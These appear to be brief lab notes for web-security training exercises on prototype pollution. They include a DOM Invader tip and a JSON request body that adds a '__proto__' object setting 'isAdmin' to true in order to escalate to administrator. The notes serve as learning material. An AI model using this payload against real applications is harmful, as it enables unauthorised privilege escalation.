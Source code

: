 # Use DOM Invader

## if alert() was not triggered:
Click Exploit again. In the new tab that loads, append a minus character (-) to the URL and reload the page. 

## Escalation to admin

```
{"address_line_1":"Wiener HQ",
"address_line_2":"One Wiener Way",
"city":"Wienerville",
"postcode":"BU1 1RP",
"country":"UK",
"sessionId":"32rXOzL7o03dJIOblnSFC5mTqd86xack",
"__proto__": {
    "isAdmin":"true"
}}
```
